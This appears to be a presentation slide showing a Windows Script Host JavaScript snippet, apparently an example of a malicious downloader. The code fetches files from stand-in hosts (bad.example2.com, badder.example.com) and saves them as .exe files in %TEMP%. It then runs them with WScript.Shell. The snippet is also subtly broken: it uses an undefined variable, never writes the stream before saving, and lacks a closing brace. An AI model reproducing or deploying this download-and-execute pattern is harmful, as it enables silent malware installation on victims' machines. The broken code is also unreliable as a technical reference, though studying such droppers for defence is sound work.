

JAVASCRIPT
var b = "bad.example2.com badder.example.com".split(" ");
var ws = WScript.CreateObject("WScript.Shell");
var fn = ws.ExpandEnvironmentStrings("%TEMP%")+String.fromCharCode(92)+"107";
var xo = WScript.CreateObject("MSXML2.XMLHTTP"); var xa = WScript.CreateObject("ADODB.Stream");
 var ld = 0;

for (var i=ld; i<b.length; i++) {

	xo.open("GET","http://"+b[i]+"/counter/?id="+i+"&rnd=711791"+n, false);
	xo.send();
	if (xo.status == 200) {
	  xa.open();
	  xa.saveToFile(fn+i+".exe",2);
	  ws.Run(fn+i+".exe",1,0);
}